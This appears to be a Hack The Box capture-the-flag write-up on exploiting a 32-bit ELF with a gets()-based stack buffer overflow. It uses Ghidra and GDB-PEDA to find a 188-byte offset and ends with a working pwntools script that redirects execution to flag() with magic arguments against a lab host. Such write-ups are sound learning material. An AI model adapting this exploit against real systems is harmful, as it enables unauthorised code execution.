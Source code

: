 

![[Pasted image 20240606204301.png]]

Breakdown of the URL-Encoding:

- `%20` translates to a space ( ).
- `%2C` translates to a comma (`,`).
- `%6E` translates to `n`.
- `%2e` translates to a period 

`/nice ports,/Trinity.txt.bak` 🧐 


![[Pasted image 20240606202336.png]]
***
Lets decompress the file given and move from there

![[Pasted image 20240606202446.png]]

Use 7z to extract:
![[Pasted image 20240606202643.png]]

![[Pasted image 20240606202819.png]]

![[Pasted image 20240606203035.png]]

```
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=ab7f19bb67c16ae453d4959fba4e6841d930a6dd, for GNU/Linux 3.2.0, not stripped

```

Lets also check the security settings on this file with ==`checksec`==
#tools 

![[Pasted image 20240608083619.png]]

![[Pasted image 20240608084729.png]]



Make executable and run:

![[Pasted image 20240606203052.png]]

![[Pasted image 20240606203117.png]]

Running Strings on file:

![[Pasted image 20240606203219.png]]


***

`scp vuln cenam@192.168.1.37:C:/Users/cenam/Desktop/`
![[Pasted image 20240606205903.png]]

Send to Ghidra
![[Pasted image 20240606210340.png]]

We find 4 Main functions
```
flag()
frame_dummy()
main()
vuln()
```

`flag()`
![[Pasted image 20240606212733.png]]

`frame_dummy()` - Does nothing
![[Pasted image 20240606212802.png]]



`main()` calls `vuln()`
![[Pasted image 20240606212709.png]]


`vuln()` function susceptible to Buffer Overflow
- Uses deprecated `gets()` and `puts()` instead of `fgets()`
- Essentially, `gets()` does not check for input size determined by the `char [180]`
![[Pasted image 20240606212830.png]]
![[Pasted image 20240606212527.png]]
***
**INSTALL GDB-PEDA**
#tools 

`git clone https://github.com/longld/peda.git ~/peda`

`echo "source ~/peda/peda.py" >> ~/.gdbinit`

![[Pasted image 20240610120646.png]]

PEDA adds python support for GDB

`gdb vuln`
`disassemble main`
- Used to view memory locations for various functions

![[Pasted image 20240610120949.png]]

![[Pasted image 20240610121010.png]]

We see that the `vuln()`function is being called.
Let's disassemble and view as well

![[Pasted image 20240610121106.png]]

So we know the `gets()`and `puts()`commands are vulnerable.
Let's use `pattern create`to inject into the program

`pattern create 200`

![[Pasted image 20240610121623.png]]

Run to overwrite the **EBP**, **ESP**, and **EIP**

![[Pasted image 20240610121831.png]]

Now we need to find the offset of **EIP** using `pattern offset`

![[Pasted image 20240610122007.png]]

This tells us that it took 188 characters to overwrite the buffer, adding and EBP value

***
RESEARCH FURTHER NEEDED


![[Pasted image 20240610123817.png]]




Install `pwn` module using `pip install pwn`
Create payload

![[Pasted image 20240610123435.png]]

```
#!/usr/bin/python3

from pwn import *

# Address of the flag function
flag = 0x080491e2

# Target server details
host = "83.136.253.103"
port = "49045"

# Magic numbers required by the flag function
deadbeef = 0xdeadbeef
codedood = 0xc0ded00d

# Create the payload
# 188 'A' characters to overflow the buffer and reach the return address
# Address of the flag function
# 4 'A' characters for stack alignment
# Magic numbers required by the flag function
payload = b"A"*188 + p32(flag) + b"A"*4 + p32(deadbeef) + p32(codedood)

# Establish a connection to the remote server
p = remote(host, port)

# Send the payload
p.sendline(payload)

# Switch to interactive mode
p.interactive()

```

![[Pasted image 20240610123542.png]]

HTB{0ur_Buff3r_1s_not_healthy}


***
***

**==Summary of the Attack==**

1. **Vulnerability Exploitation**:
    
    - The `gets()` function in `vuln()` does not limit the input size, allowing for a buffer overflow.
    - The overflowed buffer overwrites the return address of `vuln()` with the address of `flag()`.
2. **Control Flow Hijacking**:
    
    - By overwriting the return address, the attacker redirects execution to the `flag()` function.
3. **Flag Function Execution**:
    
    - The `flag()` function checks for the specific values `0xdeadbeef` and `0xc0ded00d` before printing the flag.
    - These values are provided in the payload to pass the checks.
4. **Payload Composition**:
    
    - **188 'A' characters**: Overflow the buffer.
    - **Address of `flag()`**: Overwrite the return address.
    - **4 'A' characters**: Align the stack.
    - **Magic numbers**: Pass the validation checks in `flag()`.

By following these steps, the exploit script successfully hijacks the control flow of the vulnerable program and executes the `flag` function, which is likely intended to print a secret or sensitive information. This kind of exploit demonstrates a classic buffer overflow attack, where improper input validation leads to arbitrary code execution.


**Stack layout after overflow:**
```
[ Buffer (188 bytes) ][ Return Address (flag) ][ Padding (4 bytes) ][ Arg1 (0xdeadbeef) ][ Arg2 (0xc0ded00d) ]

```

